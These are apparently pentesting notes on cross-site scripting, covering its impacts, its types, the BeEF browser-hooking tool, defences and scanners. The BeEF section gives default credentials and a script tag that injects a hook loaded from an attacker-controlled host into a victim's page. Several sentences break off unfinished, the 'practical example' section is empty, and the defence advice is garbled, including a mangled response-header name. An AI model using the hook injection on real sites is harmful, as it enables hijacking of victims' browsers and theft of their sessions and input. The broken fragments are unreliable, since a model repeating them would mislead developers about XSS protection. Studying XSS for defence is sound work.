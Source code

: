 # Cross-Site Scripting \(XSS\)

Cross-site-scripting, or XSS as it is sometimes abbreviated to, is an attack that let's the attacker execute javascript code in the browser of the victim.

### So, what's the worst that can happen? <a id="so-whats-the-worst-that-can-happen"></a>

The attacker is probably not that interested in changing the color or font of the website the victim is visiting. Although s/he could do that. The worst that can happen is probably the following:

1. Complete control over the browser The attacker can access plugins. Like password managers. The attacker can trick the user into allowing webcam or audio.
2. Session-hijacking/Cookie theft This is when the attacker steals the cookie that is saved in the browser. Using this cookie the attacker can log in to the service as the victim, and thereby gain access to his/her account. If the victim is an admin that has extended privileges \(uploading code, images, or whatever\) this could lead to a compromise of the server itself.
3. Keylogger The attacker can execute a keylogging-script that steals everything the user inputs in the website. This could be used to steal sensitive information, like passwords, credit cards information, chatlogs or whatever the user inputs.
4. Phishing The attacker can insert a fake login. Image that you visit a site, and from that site you are able to login using your facebook or google-account. The attacker could spoof that so that when you enter your credentials, they are then sent to the attacker.
5. Browser exploits The script can redirect to a another page that issues an attack against the browser, possibly leading to total takeover of the machine.

#### Types of XSS <a id="types-of-xss"></a>

1. Persistent This is when the malicious code originates from the websites database. That means the attacker has managed to insert malicious code into the database. So every time the database serve that data the script will me executed. this is probably the most dangerous XSS, since it does not need to rely on social engineering.
2. Reflected This is an attack where the script originates from the users request. This might seem a bit illogical, why would a user inject malicious code to himself? Well the code can
3. DOM based DOM-based attacks are when something is injected into javascript on the DOM. So, it does not go by the server. Because the code gets executed in the response. Take a search-functionality for example. The users enters a search-parameter that gets sent to the server which might sanitize it or something. In the response the found search-items are sent, but not the search-query. But on the webpage the search query is exposed. "You searched for X" is shown. That is because it gets the search parameter from the url-parameter. By using `document.location.href` for example.

### Beef <a id="beef"></a>

Beef username/password: beef:beef Beef is a great tool for attacking browsers.

After starting it up you can log in to the panel. Then you get someone to execute the hook. Hook URL: [http://172.17.15.118:3000/hook.js](http://172.17.15.118:3000/hook.js) UI URL: [http://172.17.15.118:3000/ui/panel](http://172.17.15.118:3000/ui/panel)

By injecting the hook into a XSS. Like this

```text
<script src="http://172.17.15.118:3000/hook.js"></script>
```

#### How does it really work? <a id="how-does-it-really-work"></a>

Let's look at a practical example.

#### Protect yourself <a id="protect-yourself"></a>

The problem with XSS is that it is a bit hard for the users to protect themselves. If there is a problem witht the website there is not that much the user can do.

One can always use noscript to block all javascript code. But that pretty much destroys the whole experience with using the internet.

#### Protect your website <a id="protect-your-website"></a>

There are mainly two ways to protect against **encoding** and **sanitizing** .

**Encoding**

Of course the way to protect your website is to sanitize all input.

You can also set the response-header like this: `-xss-protection:"1; mode=block"`

For nodeJs you can use the helmet-module to do this. [https://www.npmjs.com/package/helmet](https://www.npmjs.com/package/helmet)

#### Risks for the attacker <a id="risks-for-the-attacker"></a>

The obvious risk is that the attacker must expose a server.

#### Tools <a id="tools"></a>

**XSSER**

This tool tests a lot of

`xsser --gtk`

**Xssposed**

This is a tool found in recon-ng. It basically just check this \([https://www.openbugbounty.org/](https://www.openbugbounty.org/) \) database to see if anyone has reported a xss for the website.

#### References: <a id="references"></a>

[http://brutelogic.com.br/blog/probing-to-find-xss/](http://brutelogic.com.br/blog/probing-to-find-xss/)

